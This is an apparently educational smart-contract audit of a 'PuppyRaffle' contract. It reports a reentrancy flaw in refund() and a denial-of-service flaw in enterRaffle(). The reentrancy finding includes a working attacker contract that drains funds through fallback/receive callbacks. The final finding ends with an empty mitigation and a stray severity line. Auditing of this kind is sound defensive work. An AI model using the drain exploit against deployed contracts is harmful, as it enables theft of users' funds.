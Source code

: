 ### [H-1] Function `PuppyRaffle::refund` is vulnerable to reenteracy attacks.

**Description:** The function `PuppyRaffle::refund` sends an external call before updating the states. This external call can be called multiple times before it ever reaches the `players[playerIndex] = address(0)`.

**Impact:** Impact of reenteracy attacks can be critical. Attacker can drain the contract funds by calling back to `PuppyRaffle` contract once they receive funds using `fallback()` or `recive()`. Which calls back the `refund()` again before it ever gets a chance to update the balance, in this case removing them from `players[]`. They can drain the contract until there is nothing left.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript


    function test_reenterancyAttack() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReenterancyAttacker attackerContract = new ReenterancyAttacker(
            puppyRaffle
        );
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract)
            .balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        // executing attack
        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker balance", startingAttackContractBalance);
        console.log("starting puppyRaffle balance", startingPuppyRaffleBalance);

        console.log(
            "ending attacker balance",
            address(attackerContract).balance
        );
        console.log("ending puppyRaffle balance", address(puppyRaffle).balance);
    }

contract ReenterancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 enteranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        enteranceFee = _puppyRaffle.entranceFee();
    }

    //enter raffle
    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: enteranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _steal() internal {
        if (address(puppyRaffle).balance >= enteranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _steal();
    }

    receive() external payable {
        _steal();
    }
}

```

</details>

**Recommended Mitigation:** Reenterancy attack can be mitigated by following some best practices when dealing with external calls.

- Make checks first
- Update variables
- Lastly external calls

Another solution for this would be using Openzeppelins `ReentrancyGuard` contract, it provides a modifier to functions to prevent these attacks from happening.

### [M-#] Function `PuppyRaffle::enterRaffle` is exposed to DOS(Denial of service) attacks, looping through unchecked players array.

**Description:** Function `PuppyRaffle::enterRaffle` is prone to DOS attacks. It iterates unbouded through the list `players`, makes it more gas expensive over time could potentially end up being over block gas limit.Every single player added will require additional check to make on top of already existing players resulting directly in increasing gas cost.

**Impact:** Some third party could block access to this function if they run this function multiple times, making it more gas expensive over time could end up being over block gas limit and causing the `PuppyRaffle::enterRaffle` to not be executable anymore.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript

    function test_denialOfService() public {
        // address[] memory players = new address[](1);
        // players[0] = playerOne;
        // puppyRaffle.enterRaffle{value: entranceFee}(players);
        // assertEq(puppyRaffle.players(0), playerOne);
        vm.txGasPrice(1);

        uint256 playerNumber = 500;
        address[] memory players = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasLeft = gasleft();

        uint256 gasUsedFirst500 = (gasStart - gasLeft) * tx.gasprice;

        console.log(gasUsedFirst500);

        // Check gas for next 500 players

        address[] memory playersNext = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            playersNext[i] = address(i + playerNumber);
        }

        uint256 gasStartAfter = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(
            playersNext
        );
        uint256 gasLeftAfter = gasleft();

        uint256 gasUsedLast500 = (gasStartAfter - gasLeftAfter) * tx.gasprice;

        console.log(gasUsedLast500);

        assert(gasUsedFirst500 < gasUsedLast500);
    }

```

</details>

**Recommended Mitigation:**
Severity: HIGH

```

```
